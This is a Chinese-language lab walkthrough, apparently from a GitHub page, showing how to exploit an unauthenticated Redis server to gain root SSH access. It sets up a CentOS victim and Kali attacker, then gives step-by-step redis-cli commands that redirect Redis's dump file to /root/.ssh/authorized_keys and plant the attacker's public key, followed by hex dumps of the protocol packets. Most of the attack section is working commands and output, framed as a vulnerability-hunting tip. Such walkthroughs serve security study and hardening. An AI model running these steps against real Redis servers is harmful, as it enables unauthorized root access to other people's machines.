





**类似漏洞挖掘Tips：未授权服务在公网开放**

# Redis未授权访问写入ssh公钥获取服务器访问权限

Refer：http://blog.knownsec.com/2015/11/analysis-of-redis-unauthorized-of-expolit/

## step 1. 准备实验环境

|角色|操作系统|IP地址|
|----|--------|------|
|被攻击方|CentOS 6.5|192.168.188.132|
|攻击方|Kali 2.0|192.168.188.131|

操作：

1. 攻击方与被攻击方都是root用户。
2. 确保攻击方与被攻击方网络连通（ping）及清除iptables防火墙规则（iptables -F）。
3. 在CentOS中安装Redis 3.0.5，并运行。（终端下输入以下命令）： 

下载，解压，编译:
```
$ wget http://download.redis.io/releases/redis-3.0.5.tar.gz
$ tar xzf redis-3.0.5.tar.gz
$ cd redis-3.0.5
$ make
```

二进制文件是编译完成后在src目录下. 运行如下:
```
$ src/redis-server
```

## step 2. 实施攻击前准备

1. 攻击方用ssh连接被攻击方，发现是需要密码登录。
    ```
    ssh 192.168.188.132
    ```
    

2. 攻击方生成一对ssh公私钥。
    ```
    ssh-keygen –t rsa
    ```
    

## step 3. 攻击

**攻击者将生成公钥保存到被攻击方的/root/.ssh/authorized_keys**

1. 攻击方访问被攻击方的Redis服务（若不指定端口，连接默认端口6379）。
 ```
 redis-cli –h 192.168.188.132
 ```

2. 攻击者设置被攻击方Redis的默认路径及数据库缓存文件。
 ```
 config set dir /root/.ssh
 config set dbfilename authorized_keys
 ```

3. 攻击者设置在被攻击方Redis设置一个字符串，用来保存公钥。
 ```
 set CrackR  “\n\n\n+生成的公钥+\n\n\n”
 ```

4. 攻击者保存数据快照到硬盘，即上一步的字符串CrackR保存到/
root/.ssh/ authorized_keys.
 ```
  save
 ```

5. 退出。
 ```
 exit
 ```




## step 4. 验证攻击

1. 攻击方用ssh连接被攻击方，成功登录。
```
ssh 192.168.188.132
```


---

## 攻击流程图



---

## Redis 通信报文分析

Redis使用TCP协议进行传输，默认开放端口6379，且默认无需授权便可登录。

1. Redis数据在TCP包数据部分，以*开头，后面跟着的数字代表Redis整个命令的字符串个数。

2. 以0x0d，0x0a作为分隔符

3. 将命令中的字符串分开，以单个字符串作为处理单元，转变为 $+数字（字符串长度）+分隔符+字符串+分隔符。


### config set dir /root/.ssh 设置Redis的默认路径

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 33 0d 0a 64 69 72  $3..set..$3..dir
0020   0d 0a 24 31 30 0d 0a 2f 72 6f 6f 74 2f 2e 73 73  ..$10../root/.ss
0030   68 0d 0a                                         h..
```

### config set dbfilename authorized_keys 设置数据库缓存文件

```
0000   2a 34 0d 0a 24 36 0d 0a 63 6f 6e 66 69 67 0d 0a  *4..$6..config..
0010   24 33 0d 0a 73 65 74 0d 0a 24 31 30 0d 0a 64 62  $3..set..$10..db
0020   66 69 6c 65 6e 61 6d 65 0d 0a 24 31 35 0d 0a 61  filename..$15..a
0030   75 74 68 6f 72 69 7a 65 64 5f 6b 65 79 73 0d 0a   uthorized_keys..
```

### set xxxx "\n\n\nssh-rsa key_pub\n\n\n"  设置一个字符串

```
0000   2a 33 0d 0a 24 33 0d 0a 73 65 74 0d 0a 24 36 0d  *3..$3..set..$6.
0010   0a 43 72 61 63 6b 52 0d 0a 24 34 30 31 0d 0a 0a  .CrackR..$401...
0020   0a 0a 73 73 68 2d 72 73 61 20 41 41 41 41 42 33  ..ssh-rsa AAAAB3
0030   4e 7a 61 43 31 79 63 32 45 41 41 41 41 44 41 51  NzaC1yc2EAAAADAQ
```


